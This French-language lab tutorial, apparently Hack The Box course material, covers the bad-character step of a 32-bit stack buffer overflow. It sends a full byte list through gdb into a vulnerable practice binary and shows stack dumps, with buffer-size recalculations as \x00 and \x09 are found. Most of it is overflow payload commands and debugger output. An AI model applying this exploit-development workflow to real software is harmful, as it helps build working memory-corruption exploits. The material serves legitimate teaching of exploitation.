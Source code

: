 # Identification des Mauvais Caractères

***

Auparavant, dans les systèmes d’exploitation de type UNIX, les binaires commençaient par deux octets contenant un **« nombre magique » (magic number)** qui détermine le type de fichier.\
Au début, cela servait à identifier les fichiers objets pour différentes plateformes.\
Progressivement, ce concept a été transféré à d’autres fichiers, et maintenant presque tous les fichiers contiennent un nombre magique.

De tels caractères réservés existent également dans les applications, mais ils n’apparaissent pas toujours et ne sont pas toujours les mêmes.\
Ces caractères réservés, aussi appelés **mauvais caractères (bad characters)**, peuvent varier, mais souvent nous verrons des caractères comme ceux-ci :

```
\x00 - Octet nul
\x0A - Saut de ligne
\x0D - Retour chariot
\xFF - Form Feed
```

Ici, nous utilisons la liste de caractères suivante pour découvrir tous les caractères que nous devons considérer et éviter lors de la génération de notre shellcode.

***

### <mark style="color:red;">**Liste de Caractères**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
{% endcode %}

Pour calculer le nombre d’octets dans notre variable `CHARS`, nous pouvons utiliser **bash** en remplaçant `\x` par un espace, puis utiliser `wc` pour compter les mots.

***

### <mark style="color:green;">**Calculer la longueur de CHARS**</mark>

```bash
mrroboteLiot_1@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w
```

Résultat :

```
256
```

Cette chaîne fait **256 octets**. Nous devons donc recalculer notre buffer.

***

### <mark style="color:red;">**Notes**</mark>

```
Buffer  = "\x55" * (1040 - 256 - 4) = 780
CHARS   = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP     = "\x66" * 4
```

***

Maintenant, regardons la fonction `main` complète.\
Si nous l’exécutons maintenant, le programme va crasher sans nous donner la possibilité de suivre ce qui se passe en mémoire.\
Donc, nous allons définir un **breakpoint** à la fonction correspondante afin que l’exécution s’arrête à ce point, et nous puissions analyser le contenu de la mémoire.

***

### <mark style="color:red;">**GDB**</mark>

Désassemblage de `main` :

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x56555582 <+0>:    lea    ecx,[esp+0x4]
   0x56555586 <+4>:    and    esp,0xfffffff0
   0x56555589 <+7>:    push   DWORD PTR [ecx-0x4]
   0x5655558c <+10>:   push   ebp
   0x5655558d <+11>:   mov    ebp,esp
   0x5655558f <+13>:   push   ebx
   0x56555590 <+14>:   push   ecx
   0x56555591 <+15>:   call   0x56555450 <__x86.get_pc_thunk.bx>
   0x56555596 <+20>:   add    ebx,0x1a3e
   0x5655559c <+26>:   mov    eax,ecx
   0x5655559e <+28>:   mov    eax,DWORD PTR [eax+0x4]
   0x565555a1 <+31>:   add    eax,0x4
   0x565555a4 <+34>:   mov    eax,DWORD PTR [eax]
   0x565555a6 <+36>:   sub    esp,0xc
   0x565555a9 <+39>:   push   eax
   0x565555aa <+40>:   call   0x5655554d <bowfunc>   # <---- Fonction bowfunc
   ...
```

***

### <mark style="color:red;">**Définir le breakpoint**</mark>

```gdb
(gdb) break bowfunc
Breakpoint 1 at 0x56555551
```

***

### <mark style="color:red;">**Exécuter avec CHARS**</mark>

```gdb
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

⚠️ Avertissement bash :

```
/bin/bash: warning: command substitution: ignored null byte in input
```

***

### <mark style="color:red;">**Analyse de la pile**</mark>

On inspecte la mémoire :

```gdb
(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin

0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>
```

```
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
                                                        # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

On observe que le buffer commence bien avec nos `\x55`, puis qu’à l’endroit prévu pour `CHARS`, le premier octet `\x00` a été ignoré → donc la séquence commence par `\x01`.

Cela confirme que **\x00 est un mauvais caractère**.\
Il doit être retiré de la liste, et la taille du buffer doit être ajustée.

***

### <mark style="color:red;">**Exemple de correction**</mark>

```
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
   EIP = "\x66" * 4
```

Ensuite, on relance et on répète le processus.\
Chaque fois qu’on trouve un caractère problématique (comme ici `\x00` puis `\x09`, etc.), on le retire de la liste et on adapte la taille du buffer.

⚠️ Ce processus doit être répété **jusqu’à ce que tous les mauvais caractères soient identifiés et éliminés**.

```
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

***

```
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
                                                        # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```

```
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782	

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff" 
 
   EIP = "\x66" * 4
```

**Send CHARS - Without "\x00" & "\x09"**

```sh
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```
